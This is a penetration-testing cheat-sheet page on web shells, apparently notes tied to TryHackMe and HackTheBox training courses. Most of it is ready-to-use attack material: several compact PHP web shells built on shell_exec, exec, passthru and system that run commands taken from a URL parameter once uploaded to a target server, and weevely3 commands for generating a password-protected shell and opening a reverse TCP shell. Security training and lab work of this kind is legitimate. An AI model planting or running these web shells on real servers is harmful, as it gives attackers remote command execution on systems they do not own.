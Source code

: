 # Web shell

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

<div class="row row-cols-lg-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is determined by the language the target web server understand, such as PHP, JavaScript, or .NET. ✨
</div><div>

For JavaScript, you need to find a way for the website to execute your web shell, as unlike PHP, it's not automatically done by visiting the web shell URL.

On Kali, you can find preinstalled web shells in: ([GitLab](https://gitlab.com/kalilinux/packages/webshells))

```shell!
$ ls /usr/share/webshells
```

Alternatively, you can use [SecLists webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-lg-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0]??true);?>` and using `?0=whoami`.

<br>

#### shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php!
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) (2.8k ⭐).

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

</div><div>

#### phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) <small>(0.8k ⭐, 2018 🪦)</small>.

<br>

#### exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
* [jspbrowser](https://github.com/tennc/webshell/tree/master/jsp/jspbrowser)
</div><div>
</div></div>
